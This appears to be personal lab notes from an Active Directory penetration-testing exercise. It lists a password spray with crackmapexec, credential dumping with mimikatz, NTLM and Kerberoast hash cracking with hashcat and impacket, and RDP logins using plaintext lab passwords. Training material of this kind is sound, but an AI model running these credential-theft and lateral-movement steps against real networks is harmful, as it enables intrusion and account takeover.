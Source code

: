 rule to do ! or 1 or nothing appended
```
:
$1
$!
```

password spray against all the machines - need to use smb, will show where the user has Admins
```
crackmapexec smb 192.168.250.70-192.168.250.75 -u mike -p Darkness1099
```

log on as mike and try to get a user who has admin on DC1
```
xfreerdp /u:mike /p:Darkness1099! /cert-ignore /compression /auto-reconnect /d:corp.com /v:192.168.250.75
cd C:\Tools
.\mimikatz.exe
privilege::debug
```

grab the NTLM hash of iis_service
```
sekurlsa::logonpasswords
```

get maria NTLM on DC1 - `2a944a58d4ffa77137b2c587e6ed7626`
```
hashcat -m 1000 maria.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
xfreerdp /u:maria /p:passwordt_1415 /cert-ignore /compression /auto-reconnect /d:corp.com /v:192.168.250.70
```

### VM 3
```
crackmapexec smb 192.168.250.70-192.168.250.75 -u users2.txt -p VimForPowerShell123!

sudo impacket-GetUserSPNs -request -dc-ip 192.168.250.70 corp.com/meg
sudo hashcat -m 13100 kerb.hash /usr/share/wordlists/rockyou.txt -r rule2 --force

xfreerdp /u:backupuser /p:DonovanJadeKnight1 /cert-ignore /compression /auto-reconnect /d:corp.com /v:192.168.250.70
```






